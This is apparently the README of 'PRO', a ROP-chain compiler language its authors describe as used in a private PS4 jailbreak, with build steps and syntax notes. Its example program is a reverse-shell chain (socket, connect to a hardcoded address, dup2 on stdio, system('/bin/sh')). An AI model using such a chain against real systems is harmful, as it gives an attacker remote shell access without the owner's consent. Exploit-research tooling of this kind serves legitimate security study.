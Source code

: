 #   PRO:    PROgramming ROP like a PRO

This is a crappy tool used in our private PS4 jailbreak. Since some version, the internal browser is compiled WITHOUT jit support, and sys\_jitshm\_xxx seems to be disabled for unprivileged process. We have to write the kernel exploitation in ROP, like what has been done in HENKaku jailbreak.

##  Build
```shell
pip install git+https://github.com/chaitin/pro
```

If you have modified the `pro.g4` file, use the following commands to
generate new lexer and parser.
```shell
cd pro/parse && antlr4 -no-listener -visitor -Dlanguage=Python2 pro.g4
```

##  Examples
```javascript
toy {
	{% include "gadgets.pro" %}
	{% include "glibc.pro" %}
	const AF_INET(2);
	const SOCK_STREAM(1);
	const IPPROTO_IP(0);
	var fd;
	socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
	func store_rdx_rax<libc, 0x0002e60c, "rdx,rax::">;
	store_rdx_rax(&fd, undefined);
	printf("socket fd = %d\n", fd);
	array addr["\x02\x00\x41\x41\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"];
	connect(fd, addr, 0x10);
	{% for i in range(3): %}
		dup2(fd, {{i}});
	{% endfor %}
	system("/bin/sh");
	exit(1);
}

```

##  Usage
A BIG TODO. Just try and learn by yourself.

##  Quick Guide
All expressions should be evaluated during compilation, Const/Func should
be initialized in declaration.

Func is initialized with <Base, Offset, Signature>. Base/Offset is used for
relocation, Signature determines the calling convention of Func.

Array can be declared with size(Int) or directly initialized with its content(String).

For loop should be written in template script, it will be rendered
before compilation. For more information, check
[Jinja2](http://jinja.pocoo.org/).

